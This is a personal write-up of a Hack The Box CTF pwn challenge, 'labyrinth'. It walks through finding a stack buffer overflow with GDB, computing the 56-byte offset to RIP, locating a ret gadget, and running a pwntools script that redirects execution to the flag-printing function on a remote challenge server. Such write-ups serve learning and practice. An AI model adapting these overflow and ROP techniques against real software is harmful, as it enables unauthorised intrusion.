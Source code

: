 
2024-08-02 19:02

Source: #htb #CTF 

Tags: [[Binary Exploit]]

> [!NOTE]
> 
> The binary has [Full RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) enabled, which removes the possibility of a [GOT](https://ctf101.org/binary-exploitation/what-is-the-got/) overwrite attack. Additionally, there is no [stack canary](https://ctf101.org/binary-exploitation/stack-canaries/) and no PIE, which means we can use a straightforward ROP technique.

the code asks us to choose a door and if we choose the door `69` or `069`, we get another opportunity to input a value. If we fail to provide the value, it will be stored in the `local_38` variable, which has a size of `0x44` and can lead to a stack overflow.

It appears that this function `escape_plan` is responsible for printing the flag.

Therefore, in order to obtain the flag, we need to overwrite the `RIP` address with the address of the `escape_plan` function, which can be achieved by exploiting the stack overflow.

To determine the exact offset between `local_38` and `RIP` we use [[GDB]]

disassemble main function 
Based on the decompiled code, we need to set a breakpoint after the second input on `0x00000000004015da <+469>: mov rax,QWORD PTR [rip+0x2a2f] # 0x404010 <stdout@GLIBC_2.2.5>`.

To set the breakpoint on `b *main+469`, we can execute the following commands:2
After setting the breakpoint, we can input `AAAAAAAAAAAAAAAAAAAA` and execute the program until it hits the breakpoint.

Once the program hits the breakpoint, we can use search-pattern to find our input in the memory:

```shell
gef➤  search-pattern AAAAAAAAAAAAA
```

This will search for our input in the memory and display the memory address where it is located. We can use this address to determine the exact offset between `local_38` and `RIP`.

We found the input at address `0x7fffffffddb0`, We can use the `info frame` (`i f`) command to locate the address of `RIP`:

```shell
gef➤  i f
```
Based on the calculation, the offset between `local_38` and `RIP` is `0x7fffffffdde8-0x7fffffffddb0=0x38` which is `56`.

We also need the address of the `escape_plan` function:

```shell
gef➤  print escape_plan 
```
To recap, we have the following information:

1. The offset between the buffer `local_38` and `RIP` is `56` bytes.
2. The target address of the `escape_plan` function is `0x401255`.

We need to add a `ret` instruction because the stack is misaligned.

We can use this information to craft our exploit and overwrite the value of `RIP` with the address of the `escape_plan` function, which will cause the program to jump to the `escape_plan` function and print the flag.

We can obtain the ret instruction address using `ROPgadget`. The `ret` instruction is required to fix the misalignment of the stack caused by the stack overflow:
```shell
$ ROPgadget --binary ./labyrinth --only "ret"
```
### Automation 

`python3 exploit.py REMOTE` use this command to run the file 

```python
from pwn import *

elf = ELF('./labyrinth')
libc = elf.libc

if args.REMOTE:
    p = remote('209.97.134.50', 31510)
else:
    p = process(elf.path)

ret_addr = p64(0x401016) # From ROPgadget
payload = b"A"*(56) + ret_addr + p64(elf.symbols['escape_plan'])

print(p.recvuntil('>>').decode('utf-8'))
p.sendline("069")
print(p.recvuntil('>>').decode('utf-8'))

p.sendline(payload)
print(p.recvall().decode('utf-8'))
```

### References

https://github.com/evyatar9/Writeups/tree/master/CTFs/2023-Cyber_Apocalypse_HTB/Pwn-Labyrinth